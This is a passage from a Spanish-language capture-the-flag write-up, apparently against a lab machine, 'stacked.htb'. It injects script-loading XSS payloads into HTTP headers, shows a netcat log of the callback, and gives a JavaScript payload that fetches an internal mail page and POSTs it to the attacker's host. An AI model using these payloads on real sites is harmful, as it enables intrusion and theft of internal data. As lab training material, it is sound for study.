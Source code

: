 ```null
HTTP/1.1 200 OK
Date: Fri, 16 Jun 2023 08:30:27 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 54
Connection: close
Content-Type: text/json; charset=utf8

{"success":"Your form has been submitted. Thank you!"}
```

Intento efectuar un XSS, pero salta una advertencia

```null
fullname=<script src="http://10.10.16.6/test.js"></script>&email=test%40test.com&tel=123456789012&subject=test&message=test
```

```null
{"success":false,"error":"XSS detected!"}
```

Con las etiquetas ```<img>``` puedo enviarlo sin problemas, pero no voy a recibir ninguna petición a mi equipo. Voy a introducir el payload en todas las cabeceras innecesarias

```null
User-Agent: <script src="http://10.10.16.6/test.js"></script>
Origin: <script src="http://10.10.16.6/origin.js"></script>
Referer: <script src="http://10.10.16.6/referer.js"></script>
```

Una de ellas es vulnerable

```null
nc -nlvp 80
listening on [any] 80 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.112] 54270
GET /referer.js HTTP/1.1
Host: 10.10.16.6
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mail.stacked.htb/read-mail.php?id=2
Connection: keep-alive
```

Además la dirección URL desde donde se tramitó, tiene un parámetro ```?id``` que podría ser vulnerable a inyeccion SQL o LFI. El subdominio ```mail.stacked.htb``` no es accesible de mi lado. Puedo tratar de derivar el XSS a un CSRF para traerme el código fuente de esa página

Creo un archivo ```referer.js``` con lo siguiente:

```null
var url = "http://mail.stacked.htb/";
var req1 = new XMLHttpRequest();

req1.open('GET', url, false);
req1.send();

var response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.10.16.6:8000", false);
req2.send(response);
```
